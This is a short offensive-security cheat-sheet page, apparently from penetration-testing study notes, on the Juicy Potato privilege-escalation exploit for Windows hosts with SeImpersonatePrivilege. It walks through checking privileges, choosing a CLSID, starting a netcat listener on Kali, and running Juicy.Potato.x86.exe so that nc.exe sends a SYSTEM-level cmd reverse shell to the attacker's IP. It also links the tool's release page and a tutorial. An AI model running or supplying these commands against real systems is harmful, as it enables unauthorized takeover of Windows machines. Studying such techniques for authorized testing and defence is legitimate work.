 # Potato Exploits

## seImpersonatePrivilege (Juicy Potato)

* If you see this permission, it pretty much makes every version of Windows vulnerable to a Juicy Potato Exploit

<mark style="color:yellow;">whoami /priv</mark>:

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

This exploit requires the usage of Class Identifiers (CLSIDs)

{% embed url="http://ohpe.it/juicy-potato/CLSID/" %}

Once you Identify a proper CLSID, run the following:

1. Start NC listener on Kali

```
nc -lnvp 1337
```

&#x20; 2\. Execute juicy potato exploit with working CLSID&#x20;

```
Juicy.Potato.x86.exe -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -t * -l 1337 -p "C:\path\to\nc.exe" -a "<kali_ip_here 1337 -e cmd"
```

Repo

{% embed url="https://github.com/ohpe/juicy-potato/releases" %}

Tutorial

{% embed url="https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505" %}
